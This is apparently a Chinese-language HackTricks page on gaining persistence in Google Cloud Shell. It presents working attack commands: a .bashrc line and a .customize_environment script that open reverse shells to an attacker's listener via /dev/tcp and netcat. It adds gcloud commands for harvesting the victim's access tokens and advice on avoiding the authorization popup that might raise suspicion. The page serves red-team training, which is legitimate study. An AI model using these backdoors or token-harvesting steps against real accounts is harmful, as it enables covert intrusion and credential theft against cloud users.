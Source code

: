 # GCP - Cloud Shell Persistence

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Cloud Shell

有关更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 持久后门

[**Google Cloud Shell**](https://cloud.google.com/shell/) 使您可以直接从浏览器访问云资源的命令行，无需任何相关费用。

您可以通过 **web 控制台** 或运行 **`gcloud cloud-shell ssh`** 访问 Google 的 Cloud Shell。

此控制台对攻击者具有一些有趣的功能：

1. **任何有权访问 Google Cloud 的 Google 用户** 都可以访问一个完全认证的 Cloud Shell 实例（服务账户即使是组织的所有者也可以）。
2. 如果没有活动，该实例将 **至少保持其主目录 120 天**。
3. 组织 **无法监控** 该实例的活动。

这基本上意味着攻击者可以在用户的主目录中放置一个后门，只要用户每 120 天至少连接一次 GC Shell，后门就会存活，攻击者每次运行时都会获得一个 shell，只需执行：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

在主文件夹中还有另一个文件叫 **`.customize_environment`**，如果存在，将会在用户访问 **cloud shell** 时 **每次执行**（就像在前面的技术中一样）。只需插入之前的后门或类似以下的内容，以保持持久性，只要用户“频繁”使用 cloud shell：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
需要注意的是，**第一次执行需要身份验证的操作时**，用户的浏览器中会出现一个弹出授权窗口。必须接受此窗口才能运行命令。如果出现意外的弹出窗口，可能会引起怀疑，并可能危及所使用的持久性方法。
{% endhint %}

这是从云终端（作为攻击者）执行 `gcloud projects list` 时在浏览器用户会话中查看的弹出窗口：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

然而，如果用户积极使用云终端，则不会出现弹出窗口，您可以**通过以下方式收集用户的令牌**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH连接的建立方式

基本上，使用这3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（将使您添加您本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（将使您启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（将告诉您google cloud shell的IP）

但您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)找到更多信息。

## 参考资料

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
